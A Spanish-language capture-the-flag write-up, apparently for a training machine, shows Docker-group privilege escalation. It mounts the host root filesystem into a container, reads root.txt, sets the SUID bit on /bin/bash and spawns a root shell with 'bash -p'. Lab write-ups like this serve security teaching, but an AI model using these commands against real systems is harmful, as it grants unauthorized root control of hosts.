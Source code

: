 ## Privilege Escalation {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
```

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

### Escalacion de privilegios con Docker {-}

1. Checkear las imagenes Docker existentes

    ```bash
    docker ps
    ```

1. Utilizar una imagen existente para crear un contenedor y **mountarle** la raiz del systema en el contenedor

    ```bash
    docker run --rm -it -v /:/mnt rodhes bash
    cd /mnt/root/
    cat root.txt
    ```

1. Escalar privilegios en la maquina real

    - en el contenedor

        ```bash
        cd /mnt/bin
        chmod 4755 bash
        exit
        ```
    
    - en la maquina real

        ```bash
        bash -p
        whoami

        #Output
        root
        ```

